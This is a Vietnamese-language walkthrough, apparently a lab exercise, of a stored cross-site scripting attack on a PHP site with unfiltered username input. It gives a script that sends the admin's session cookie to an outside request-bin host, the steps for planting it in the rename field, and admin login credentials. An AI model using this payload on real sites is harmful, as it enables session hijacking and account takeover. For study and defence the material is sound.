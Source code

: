 * Chuẩn bị 1 mã độc javascript để nhúng vào trang web

  - Script độc hại được tiêm vào mã nguồn khi đầu vào của trang web lỏng lẻo. Cụ thể ở đây là khi user nhập thông tin từ ô input, sever sẽ lấy thẳng đoạn content mà user nhập cho vào database.

  ```php
  if(!empty($_POST["submit"])) {
      $name = $_POST["name"]);
  }
  ```

  - Ở đây sẽ không có chuyện gì xảy ra khi user nhập $name bình thường. Tuy nhiên nếu user nhập là 1 đoạn javascript. Khi đó $name sẽ được thực thi như 1 đoạn mã javascript thông thường. Do vậy, nếu attacker dùng đoạn mã sau thì sẽ lấy cookie của admin thông qua xss.

```javascript
<script type="text/javascript">
     window.location.assign('https://enyuabviyn2ns.x.pipedream.net?key='+document.cookie);
</script>
```

- Lệnh window.location.assign($url) sẽ reload trang web tới đích $url được chỉ định.
- Lệnh document.cookie cho phép lấy ra cookie của account hiện tại. Ở đây ta sẽ dùng lệnh này để lấy ra PHPSESSID của admin dựa trên kỹ thuật xss.
- Kết hợp "requestbin.com" với các câu lệnh trên ta sẽ Reflected từ trang web đích(victim) với cookie của admin khi admin mở lên trang web có chứa đoạn mã độc trên.

* Quay lại phần đổi tên, dán đoạn mã độc trên vào ô "Enter new username" và click "Rename user"
  - Ở đây ô input "Enter new username" là 1 đầu vào của trang web. Khi đầu vào không được lọc kỹ càng thì sẽ bị dính lỗi xss. Bây giờ ta sẽ thử tiêm đoạn mã độc javascript ở trên vào đây.
    ![rename](images/step_demo_rename.png)
* Quay lại trang "requestbin.com" để chờ admin hoặc manager login vô trang web. Ta đã thành công trong việc tiêm mã độc javascript vào thông tin cá nhân của mình. Bây giờ ta chỉ cần đợi admin hoặc manager kiểm tra tài khoản của user.
* (Giả định với tư cách là admin của trang web) Tiến hành đổi trình duyệt và login vào trang web với tài khoản của admin (admin04:admin07)